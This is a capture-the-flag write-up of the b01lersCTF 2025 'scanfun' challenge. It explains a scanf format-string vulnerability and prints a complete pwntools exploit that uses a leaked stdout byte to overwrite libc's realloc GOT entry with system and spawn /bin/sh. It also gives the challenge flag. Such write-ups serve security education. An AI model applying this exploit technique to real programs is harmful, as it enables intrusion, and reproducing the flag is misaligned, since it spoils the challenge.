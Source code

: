 ```yaml
---
title: b01lersCTF-2025
published: 2025-04-23
description: ''
image: ''
tags: [fmt,pwn]
category: 'Writups'
draft: false 
lang: ''
---
```





# scanfun

## Files
- <a href="/Blog/b01lersCTF-2025/scanfun/Dockerfile">Dockerfile</a>
- <a href="/Blog/b01lersCTF-2025/scanfun/ld-linux-x86-64.so.2">ld-linux-x86-64.so.2</a>
- <a href="/Blog/b01lersCTF-2025/scanfun/libc.so.6">libc.so.6</a>
- <a href="/Blog/b01lersCTF-2025/scanfun/scanner">scanner</a>
- <a href="/Blog/b01lersCTF-2025/scanfun/scanner">scanner</a>
- <a href="/Blog/b01lersCTF-2025/scanfun/scanner.c">scanner.c</a>
- <a href="/Blog/b01lersCTF-2025/scanfun/x.py">x.py</a>

## Chall

This is a `fmt` challenge using the `scanf` function. i didnt find any `scanf` with a `fmt` when i looked online for resources so this is quite an interesting challenge. 

Weirdly enough, when I looked online to see if `scanf` has any positional arguments support, nothing popped up, so I just didn’t take it into consideration. That was until I wrote a simple test C program—and yes, `scanf` does support positional format specifiers.

Alright, back to the challenge. We are given the `scanner.c` file above.

```c
#include <stdio.h>
#include <stdlib.h>

void scan() {
    char scanner[0x50] = {0};
    while (1) {
        fprintf(stdout, "What do you want to scan?\n");
        scanf("%50s\n", scanner);
        scanf(scanner);
        
    }
}


int main() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    
    printf("Welcome to The Scanner (TM)!!!\n");
    printf("A hint for you. Just a byte, no more [0x%hhx]\n", (((unsigned long)stdout) >> 16) & 0xFF);
    scan();
}
```

It asks us to insert a 50-character string, then passes it to scanf. This means if the input string contains format specifiers, the second scanf will interpret them.

So, we can potentially write something onto the stack. If we can partially overwrite some address with a specific value and then use that value as an index in a subsequent write operation, we can achieve arbitrary write on the stack.

for more details here is a explanation from the discord user `gfelber`
> 1. abuse argv to get relative writes int stack
> ```
> (argv) 0x7fffffffee38 -> 0x7fffffffefe4 (argv[0]) -> 'asdfasdf'
> "%420$hx " <- "6969"
> (argv) 0x7fffffffee38 -> 0x7fffffff6969 (argv[0]) -> 'xxxxxxxx' // different
> "%1337$lx" <- "deadbeef"
> (argv) 0x7fffffffee38 -> 0x7fffffff6969 (argv[0]) -> 0xdeadbeef // arb write in stack
> ```
> 2. we use the query buffer as a stack position oracle (if we write a scanf format string into it we can use it as an oracle)
> 3. because we could hit the query buffer at multiple offsets we move up to the ret ptr back to scan from scanf
> 4. we now know the first 2 bytes of the stack location of the ret address of scan which is good enought for future exploitation


Now with that out of the way, the challenge also leaks the third byte of `stdout`.  

Combined with the ability to partially overwrite an address on the stack, this gives us **almost arbitrary write** into `libc`.
I thought that leaking the third byte wouldn't really break ASLR, but Linux allocates 2MB pages for system libraries.  
So instead of having just a byte and a half (0x1000) of offset, we actually have almost 3 bytes (0x200000) of offset.  
Combined with the ability to write to any address on the stack, this gives us an **arbitrary write** in `libc`.
But first, we need to find a writable `libc` address to make it point to where we want.  
Now comes the second trick with `scanf`: we can use `%ms` to write an arbitrarily sized string into an automatically allocated memory region.  
`libc` will allocate memory the size of the input string and copy the string into it—it uses `realloc` for that.

## The plan

- **Get the offset of `system`** using the leaked byte.  
- **Overwrite the GOT entry of `realloc`** with `system`, then call `scanf("%{idx}$ms")` with `/bin/sh`. This is equivalent to `realloc("/bin/sh")`, which gives us a shell thanks to the GOT overwrite.  
- **Find a writable `libc` address** first.  For that, use `scanf("%{idx}$ms")` with a large string.  `libc` will use `mmap` for the allocation.  (For those who don't know: `mmap` addresses are close to `libc`.)  
- Then **make that allocated address point to `libc.got.realloc`** by overwriting a pointer on the stack.  
- **Overwrite, and GG.**

## `getAddr` Function
```python
def getAddr(addr):
    STDOUT = (libc.sym["_IO_2_1_stdout_"] >> (8 * 2) & 0xff) # fixed addr from libc
    BASE = BYTE - STDOUT                                     # get base using the leaked byte
    ADDR_BYTE = BASE + ((addr >> (8 * 2)) & 0xff)            # calculate new offset byte
    return (ADDR_BYTE << 16) + (addr & 0x00ffff)             # reconstruct the target addr
```

and here is the final payload

<details>
<summary>payload</summary>

```python
from pwn import *

# Explained earlier in the blog
def getAddr(addr):
    STDOUT = (libc.sym["_IO_2_1_stdout_"] >> (8 * 2) & 0xff)
    print(hex(BYTE), hex(STDOUT))
    BASE = BYTE - STDOUT 
    ADDR_BYTE = BASE + ((addr >> (8 * 2)) & 0xff)
    return (ADDR_BYTE << 16) + (addr & 0x00ffff)

elf = context.binary = ELF("scanner")
context.log_level = "ERROR"

while True:
    p = process()
    # p = remote("scanfun.harkonnen.b01lersc.tf", 8443, ssl=True)

    p.recvuntil("no more [")
    BYTE = int(p.recvuntil("]")[2:-1], 16)

    libc = elf.libc

    p.recvuntil(" scan?")
    # Make scanf allocate memory using mmap
    p.sendline(b'%16$ms')
    p.sendline(b'a' * 0x40000)

    # Overwrite GOT entry: realloc -> system
    p.recvuntil(" scan?")
    p.sendline("%16$3c")  # Stack offset, write 3 bytes
    p.sendline(getAddr(libc.got["realloc"]).to_bytes(3, byteorder="little"))

    p.recvuntil(" scan?")
    p.sendline("%18$3c")  # Overwrite with system's address
    p.sendline(getAddr(libc.sym["system"]).to_bytes(3, byteorder="little"))

    print("OK")
    # Trigger realloc("/bin/sh")
    p.sendline(b'%23$ms')
    p.sendline(b"/bin/sh\x00" + b"A" * 0x100)  # Spawn shell

    A = p.clean(1)
    print(A)
    if b"/bin/sh" in A:
        p.interactive()
    else:
        p.close()  # Might fail due to stack argument offsets
```
</details> 

```bctf{bUt_wh0_sc4nfs_the_5canf3r5_psof2s}```